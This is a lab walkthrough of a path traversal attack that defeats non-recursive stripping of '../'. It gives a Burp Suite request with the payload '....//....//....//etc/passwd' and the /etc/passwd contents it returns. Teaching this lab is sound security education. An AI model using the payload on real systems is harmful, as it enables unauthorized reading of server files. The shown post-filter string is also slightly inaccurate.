

🧪 Lab: File Path Traversal (Non-Recursive Stripping Bypass)
🎯 Goal

Retrieve the contents of /etc/passwd

🛠️ Steps (Using Burp Suite Repeater)
1. Intercept the Request
Open the lab
Turn Intercept ON
Click on a product image

Captured request:

GET /image?filename=product.jpg HTTP/1.1
Host: target
2. Send to Repeater
Right-click → Send to Repeater
3. Modify the Payload

The app removes ../, but only once (non-recursive)
So we bypass using a crafted payload:

GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: target
4. Send the Request
Click Send
5. Observe the Response

You’ll see:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...

✅ Successfully retrieved /etc/passwd

💡 Why This Works (Key Idea)

The application:

Tries to remove ../
❌ But does it only once
What happens:

Input:

....//....//etc/passwd

After filtering:

../..//etc/passwd

👉 The traversal still exists after filtering

🧠 Hacker Insight

This is called:
👉 Non-recursive sanitization flaw

Real-world lesson:

Filters must be applied repeatedly (recursively)
Otherwise, attackers rebuild the payload

